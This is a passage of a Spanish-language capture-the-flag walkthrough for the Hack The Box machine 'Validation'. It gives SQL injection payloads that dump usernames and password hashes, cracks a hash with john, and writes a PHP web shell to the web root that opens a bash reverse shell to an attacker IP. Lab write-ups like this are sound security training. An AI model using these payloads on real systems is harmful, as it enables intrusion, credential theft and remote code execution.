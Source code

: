<img src="/writeups/assets/img/Validation-htb/3.png" alt="">

Listo las columnas

```null
Brazil' union select group_concat(column_name) from information_schema.columns where table_schema="registration" and table_name="registration"-- -
```

<img src="/writeups/assets/img/Validation-htb/5.png" alt="">

Me quedo con usuario y contraseña

```null
Brazil' union select group_concat(username,0x3a,userhash) from registration.registration-- -
```

<img src="/writeups/assets/img/Validation-htb/6.png" alt="">

Lo crackeo con ```john```

```null
john -w:/usr/share/wordlists/rockyou.txt hash --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
test             (?)     
1g 0:00:00:00 DONE (2023-06-07 10:43) 100.0g/s 16627Kp/s 16627Kc/s 16627KC/s tyson22..taurus89
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

Como tampoco puedo iniciar sesión en ningún sitio, no me sirve de nada. Pruebo a depositar contenido en un archivo

```null
Brazil' union select "Testing" into outfile "/var/www/html/rubbx.txt"-- -
```

Existe y puedo acceder a este

```null
curl -s -X GET http://10.10.11.116/rubbx.txt
Testing
```

Creo un archivo en PHP que se encargue de enviar una reverse shell

```null
Brazil' union select "<?php system(\"bash -c 'bash -i >%26 /dev/tcp/10.10.16.9/443 0>%261'\");" into outfile "/var/www/html/pwned.php"-- -
```
